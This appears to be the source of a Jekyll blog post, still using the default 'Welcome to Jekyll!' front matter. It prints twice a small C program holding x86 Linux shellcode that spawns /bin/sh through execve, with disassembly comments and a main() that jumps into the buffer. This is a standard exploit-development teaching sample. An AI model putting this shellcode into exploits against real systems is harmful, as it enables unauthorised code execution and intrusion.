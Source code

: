 ```yaml
---
layout: post
title:  "Welcome to Jekyll!"
date:   2015-01-02 21:33:20
categories: jekyll update
---
```


```c
char shellcode[] = 

"\x99"                         // cltd   
"\x31\xc0"                     // xor    %eax,%eax
"\x52"                         // push   %edx
"\x68\x6e\x2f\x73\x68"         // push   $0x68732f6e
"\x68\x2f\x2f\x62\x69"         // push   $0x69622f2f
"\x89\xe3"                     // mov    %esp,%ebx
"\x52"                         // push   %edx
"\x53"                         // push   %ebx
"\x89\xe1"                     // mov    %esp,%ecx
"\xb0\x0b"                     // mov    $0xb,%al
"\xcd\x80";                    // int    $0x80

int main() {

    void (*p)();
    p = (void *)&shellcode;
    printf("Lenght: %d\n", strlen(shellcode));
    p();
}

```

{% highlight c %}
char shellcode[] = 

"\x99"                         // cltd   
"\x31\xc0"                     // xor    %eax,%eax
"\x52"                         // push   %edx
"\x68\x6e\x2f\x73\x68"         // push   $0x68732f6e
"\x68\x2f\x2f\x62\x69"         // push   $0x69622f2f
"\x89\xe3"                     // mov    %esp,%ebx
"\x52"                         // push   %edx
"\x53"                         // push   %ebx
"\x89\xe1"                     // mov    %esp,%ecx
"\xb0\x0b"                     // mov    $0xb,%al
"\xcd\x80";                    // int    $0x80

int main() {

    void (*p)();
    p = (void *)&shellcode;
    printf("Lenght: %d\n", strlen(shellcode));
    p();
}
{% endhighlight %}

